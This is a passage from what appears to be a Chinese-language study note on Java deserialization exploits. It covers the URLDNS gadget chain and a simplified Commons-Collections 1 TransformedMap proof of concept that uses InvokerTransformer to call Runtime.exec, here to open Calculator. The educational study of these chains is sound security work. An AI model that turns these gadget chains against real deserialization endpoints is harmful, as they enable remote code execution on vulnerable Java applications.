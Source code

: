 ```java
                }

                protected synchronized InetAddress getHostAddress(URL u) {
                        return null;
                }
        }
}
```

URLDNS Gadget:
HashMap#readObject() 
-> HashMap#hash() 
-> URL#hashCode() 
-> URLStreamHandler#hashCode() 
-> URLStreamHandler#getHostAddress() 
-> InetAddress#getByName()

整个调用链比较简短，从`readObject`，到初始化一个`java.net.URL`，设置`URL`对象的`hashCode`为`-1`，在反序列化时会计算`hashCode`，从而触发`getHostAddress`，最后发出DNS请求。

需要注意的一些点：
1. java.net.URL.hashCode == -1 才会触发后面的动作，而默认计算出的值不为-1，因此需要通过反射手动赋值为-1。
2. 重写SilentURLStreamHandler类时为了防止生成Payload时也执行URL请求和DNS查询，实际上不是必须的。

![image.png](https://ek1ng-typora.oss-cn-hangzhou.aliyuncs.com/img/20230801210604.png)

## Commons-Collections 1

> CC1 需要JDK版本小于8u71 

### TransformedMap

p牛的简化版，这部分代码没有反序列化入口，主要理解Transformer相关的一些知识，如何从可控回调函数到RCE的核心部分。

```java
public class CommonCollections1 {  
	public static void main(String[] args) throws Exception {  
		Transformer[] transformers = new Transformer[]{  
			new ConstantTransformer(Runtime.getRuntime()),  
			new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"/System/Applications/Calculator.app/Contents/MacOS/Calculator"}),  
		};  
		Transformer transformerChain = new ChainedTransformer(transformers);  
		Map innerMap = new HashMap();  
		Map outerMap = TransformedMap.decorate(innerMap, null, transformerChain);  
		outerMap.put("test", "xxxx");  
	}  
}
```

TransformedMap 主要用于在 Map 中的数据进行转换的场景，提供一种方便的方式来执行这些转换操作，而不需要手动遍历MAP。

而在转换时，例如给Map添加新元素时，可以执行回调函数。这里`keyTransformer`和`valueTransformer`分别时处理新元素`key`和`value`的回调，都是一个实现了`Transformer`借口的类。
